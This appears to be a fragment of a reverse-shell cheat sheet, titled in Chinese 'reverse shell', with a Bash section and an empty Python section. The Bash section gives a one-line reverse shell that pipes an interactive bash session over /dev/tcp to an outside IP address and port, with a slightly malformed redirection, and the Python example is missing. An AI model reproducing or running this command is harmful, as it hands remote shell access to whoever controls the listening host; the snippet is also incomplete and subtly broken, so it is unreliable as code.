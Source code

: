 # 反弹 shell

#### Bash

```
bash -c 'bash -i &>/dev/tcp/8.8.8.8/8888 0>1'
```

#### Python

```

```



